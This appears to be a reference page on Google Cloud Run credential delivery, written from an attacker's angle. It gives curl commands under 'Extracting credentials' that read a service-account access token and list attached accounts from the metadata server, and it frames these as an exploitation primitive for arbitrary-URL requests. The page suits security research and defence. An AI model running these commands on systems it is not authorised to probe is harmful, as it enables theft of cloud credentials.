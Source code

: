 # Google Cloud Run

[Google Cloud Run](https://cloud.google.com/run?hl=en) is a managed platform for running web applications.

| Property      | Value                          |
| ----------- | ------------------------------------ |
| Credentials delivery mechanism       | [Served through link-local metadata service](../types-of-credentials-delivery.md#served-through-link-local-metadata-service)  |
| Protection type       | Header requires hardcoded value |
| Exploitation primitives    | `Query arbitrary URL with arbitrary HTTP header` |

## Extracting credentials

The Google Cloud metadata server is available at `169.254.169.254` and requires an HTTP header `Metadata-Flavor` set to `Google`:

```bash
curl -H "Metadata-Flavor: Google" http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token
```

You can also check if non-default service accounts are attached:

```bash
curl -H "Metadata-Flavor: Google" http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/
```

## References

- https://cloud.google.com/run/docs/securing/service-identity